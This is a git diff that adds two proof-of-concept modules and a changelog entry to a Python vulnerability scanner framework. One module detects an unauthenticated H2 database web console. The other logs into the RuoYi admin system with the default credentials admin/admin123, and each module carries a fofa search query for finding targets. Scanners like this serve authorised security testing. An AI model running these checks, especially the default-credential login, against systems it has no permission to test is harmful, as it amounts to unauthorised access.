

2.18.2

diff --git a/poc/H2_DataBase/UnAuth_Access/poc.py b/poc/H2_DataBase/UnAuth_Access/poc.py
@@ -1,0 +1,79 @@
+# coding:utf-8  
+import requests
+from lib.core.common import url_handle,get_random_ua
+from lib.core.poc import POCBase
+# ...
+import urllib3
+urllib3.disable_warnings()
+
+class POC(POCBase):
+
+    _info = {
+        "author" : "jijue",                      # POC作者
+        "version" : "1",                    # POC版本，默认是1  
+        "CreateDate" : "2021-06-09",        # POC创建时间
+        "UpdateDate" : "2021-06-09",        # POC创建时间
+        "PocDesc" : """
+        略  
+        """,                                # POC描述，写更新描述，没有就不写
+
+        "name" : "H2 数据库 Web控制台未授权访问",                        # 漏洞名称
+        "VulnID" : "oFx-2021-0001",                      # 漏洞编号，以CVE为主，若无CVE，使用CNVD，若无CNVD，留空即可
+        "AppName" : "H2 数据库",                     # 漏洞应用名称
+        "AppVersion" : "",                  # 漏洞应用版本
+        "VulnDate" : "2021-06-09",                    # 漏洞公开的时间,不知道就写今天，格式：xxxx-xx-xx
+        "VulnDesc" : """
+            H2 数据库是 Java 中的嵌入式内存数据库。
+            带有 h2 数据库的 Springboot 带有一个 web 管理页面，
+            如果您设置以下选项，则该页面没有身份验证：
+                spring.h2.console.enabled=true
+                spring.h2.console.settings.web-allow-others=true
+        """,                                # 漏洞简要描述
+
+        "fofa-dork":"""
+            "springboot"
+        """,                     # fofa搜索语句
+        "example" : "",                     # 存在漏洞的演示url，写一个就可以了
+        "exp_img" : "",                      # 先不管  
+    }
+
+    def _verify(self):
+        """
+        返回vuln
+
+        存在漏洞：vuln = [True,html_source] # html_source就是页面源码  
+
+        不存在漏洞：vuln = [False,""]
+        """
+        vuln = [False,""]
+        url = self.target + "/h2-console/" # url自己按需调整
+        
+
+        headers = {"User-Agent":get_random_ua(),
+                    "Connection":"close",
+                    # "Content-Type": "application/x-www-form-urlencoded",
+                    }
+        
+        try:
+            """
+            检测逻辑，漏洞存在则修改vuln值为True，漏洞不存在则不动
+            """
+            req = requests.get(url,headers = headers , proxies = self.proxy ,timeout = self.timeout,verify = False,allow_redirects=False)
+            if req.status_code == 200 and \
+                "H2 Console" in req.text and \
+                    "location.href = 'login.jsp?jsessionid=" in req.text and \
+                        "Welcome to H2" in req.text:
+                vuln = [True,req.text]
+            else:
+                vuln = [False,req.text]
+        except Exception as e:
+            raise e
+        
+        # 以下逻辑酌情使用
+        if self._honeypot_check(vuln[1]) == True:
+            vuln[0] = False
+        
+        return vuln
+
+    def _attack(self):
+        return self._verify()

diff --git a/poc/RuoYi_若依/Weak_Pass/poc.py b/poc/RuoYi_若依/Weak_Pass/poc.py
@@ -1,0 +1,74 @@
+# coding:utf-8  
+import requests
+from lib.core.common import url_handle,get_random_ua
+from lib.core.poc import POCBase
+# ...
+import urllib3
+urllib3.disable_warnings()
+
+class POC(POCBase):
+
+    _info = {
+        "author" : "jijue",                      # POC作者
+        "version" : "1",                    # POC版本，默认是1  
+        "CreateDate" : "2021-06-09",        # POC创建时间
+        "UpdateDate" : "2021-06-09",        # POC创建时间
+        "PocDesc" : """
+        略  
+        """,                                # POC描述，写更新描述，没有就不写
+
+        "name" : "若依后台管理系统 弱口令",                        # 漏洞名称
+        "VulnID" : "oFx-2021-0001",                      # 漏洞编号，以CVE为主，若无CVE，使用CNVD，若无CNVD，留空即可
+        "AppName" : "若依后台管理系统",                     # 漏洞应用名称
+        "AppVersion" : "",                  # 漏洞应用版本
+        "VulnDate" : "2021-06-09",                    # 漏洞公开的时间,不知道就写今天，格式：xxxx-xx-xx
+        "VulnDesc" : """
+            存在默认口令 admin/admin123
+        """,                                # 漏洞简要描述
+
+        "fofa-dork":"""
+            "springboot"
+        """,                     # fofa搜索语句
+        "example" : "",                     # 存在漏洞的演示url，写一个就可以了
+        "exp_img" : "",                      # 先不管  
+    }
+
+    def _verify(self):
+        """
+        返回vuln
+
+        存在漏洞：vuln = [True,html_source] # html_source就是页面源码  
+
+        不存在漏洞：vuln = [False,""]
+        """
+        vuln = [False,""]
+        url = self.target + "/login" # url自己按需调整
+        data = "username=admin&password=admin123&rememberMe=false"
+
+        headers = {"User-Agent":get_random_ua(),
+                    "Connection":"close",
+                    "Content-Type": "application/x-www-form-urlencoded",
+                    }
+        
+        try:
+            """
+            检测逻辑，漏洞存在则修改vuln值为True，漏洞不存在则不动
+            """
+            req = requests.post(url,data = data,headers = headers , proxies = self.proxy ,timeout = self.timeout,verify = False,allow_redirects=False)
+            if req.status_code == 200 and \
+                "\"code\":0" in req.text and \
+                    "application/json" in str(req.headers["Content-Type"]):
+                vuln = [True,req.text]
+            else:
+                vuln = [False,req.text]
+        except Exception as e:
+            raise e
+        
+        # 以下逻辑酌情使用
+        if self._honeypot_check(vuln[1]) == True:
+            vuln[0] = False
+        
+        return vuln
+
+    def _attack(self):
+        return self._verify()

diff --git a/docs/CHANGELOG.md b/docs/CHANGELOG.md
@@ -602,6 +602,13 @@
 > 新增POC：
 * ``泛微 E-cology WorkflowCenterTreeData.jsp文件 前台SQL注入漏洞``
 * ``泛微OA Beanshell 远程代码执行漏洞``
+
+
+## version 2.18.2
+------------------
+> 新增POC：
+* ``H2 数据库 Web控制台未授权访问``
+* ``若依后台管理系统 弱口令``
 ```
 ===============
 ｜以上为当前版本｜
